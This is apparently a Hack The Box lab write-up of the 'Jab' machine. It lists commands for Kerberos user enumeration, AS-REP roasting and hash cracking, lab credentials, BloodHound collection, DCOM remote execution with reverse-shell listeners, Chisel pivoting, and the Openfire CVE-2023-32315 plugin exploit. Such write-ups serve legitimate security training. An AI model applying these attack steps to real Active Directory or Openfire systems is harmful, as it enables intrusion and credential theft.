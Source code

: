 # Jab - Active Directory Exploitation Walkthrough

This walkthrough demonstrates the full exploitation of the **Jab** Active Directory lab environment. The assessment includes user enumeration, AS-REP roasting, SMB enumeration, BloodHound-based lateral movement, and remote code execution through Openfire (CVE-2023-32315) to achieve Domain Admin access.

---

## 🧠 Lab Information

- **IP Address:** 10.10.11.4
- **Domain:** jab.htb
- **Domain Controller:** dc01.jab.htb
- **Services:** Kerberos, SMB, LDAP, XMPP/Openfire

---

## 🔍 Enumeration

### Nmap Scan

```bash
nmap -sC -sV -oA nmap 10.10.11.4

Key Ports:
88, 389, 636, 445 – Kerberos, LDAP, SMB
5222, 5269, 7070, 7443, 7777 – XMPP (Openfire)

Add to /etc/hosts:
10.10.11.4 jab.htb dc01.jab.htb
🔐 Kerberos & XMPP Enumeration
Kerberos User Enumeration
bash
Copy
Edit
kerbrute userenum --dc dc01.jab.htb -d jab.htb usernames.txt -o kerbrute.txt

Thousands of users discovered.

AS-REP Roasting
bash
Copy
Edit
impacket-GetNPUsers jab.htb/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
Crack Hash with Hashcat
bash
Copy
Edit
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
Cracked Credential:

jmontgomery : Midnight_121

💬 XMPP Enumeration (Pidgin)
Install and open Pidgin.

Create new XMPP account using cracked credentials.

Join chat rooms to discover additional usernames and messages.

Found credentials:

svc_openfire : !@#$%^&*(1qazxsw)

📁 SMB Enumeration
bash
Copy
Edit
smbmap -u svc_openfire -p '!@#$%^&*(1qazxsw)' -H 10.10.11.4
Limited access, no sensitive data found.

🧠 BloodHound Analysis
Data Collection
bash
Copy
Edit
bloodhound-python -u svc_openfire -p '!@#$%^&*(1qazxsw)' -d jab.htb -dc dc01.jab.htb -c all -ns 10.10.11.4
zip -r bloodhound.zip bloodhound/
BloodHound GUI (Neo4j)
Upload collected data.

Identify attack path using DCOM and Remote Code Execution privileges.

🧨 Remote Code Execution via DCOM
Reverse Shell Payload
Generate a PowerShell reverse shell from revshells.com, then:

bash
Copy
Edit
impacket-dcomexec 'jab.htb/svc_openfire:!@#$%^&*(1qazxsw)@dc01.jab.htb' '<PowerShellCommand>'
Start listener:

bash
Copy
Edit
rlwrap nc -nlvp 6658
✅ User Flag: 58b27f9faaec3dfdb2a94dad6a1e2175

🔁 Pivoting with Chisel
Setup Chisel Tunnel
Server (Attacker):

bash
Copy
Edit
chisel server -p 9999 --reverse
Client (Victim):

bash
Copy
Edit
chisel client <YourIP>:9999 R:9090:127.0.0.1:9090
Access Openfire admin: http://127.0.0.1:9090

⚙️ Exploiting Openfire (CVE-2023-32315)
Exploit Setup
bash
Copy
Edit
git clone https://github.com/miko550/CVE-2023-32315.git
cd CVE-2023-32315
pip3 install -r requirements.txt
Upload Malicious Plugin
Login to Openfire admin panel.

Use exploit to upload a reverse shell plugin.

Catch Shell
bash
Copy
Edit
rlwrap nc -nlvp 4444
✅ Root Flag: 8f826f76eb871e0566058e6580760e8e

✅ Summary
| Step                 | Technique                     | Result                          |
| -------------------- | ----------------------------- | ------------------------------- |
| User Enumeration     | Kerbrute, AS-REP roasting     | Found jmontgomery credentials   |
| XMPP Enumeration     | Pidgin                        | Found svc\_openfire credentials |
| Lateral Movement     | BloodHound (DCOM)             | Executed shell on DC            |
| Privilege Escalation | Openfire RCE (CVE-2023-32315) | Gained SYSTEM shell             |
| Flags Captured       | User & Root                   | ✅ Complete compromise           |

Author: Farhanahmad Quraishi
